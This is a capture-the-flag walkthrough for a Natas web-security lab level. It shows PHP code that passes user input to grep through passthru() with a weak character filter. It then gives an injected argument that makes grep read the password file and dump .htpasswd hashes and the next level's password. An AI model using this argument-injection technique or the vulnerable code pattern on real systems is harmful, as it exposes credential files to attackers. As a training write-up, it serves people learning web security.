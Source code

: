 ```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Since it blocks us from using `;`, we can see that the key input is before dictionary.txt and from previous challenges, we know the flag will be in `/etc/natas_webpass/natasXX` so with grep we can check multiple files like `grep -i term file1 file2 file3`, so our key can just be the file we want to check.. term will be what we search for, so with some regex for any line `.*` we can use:

`.* /etc/natas_webpass/natas10`

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
```

There's our next password!

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`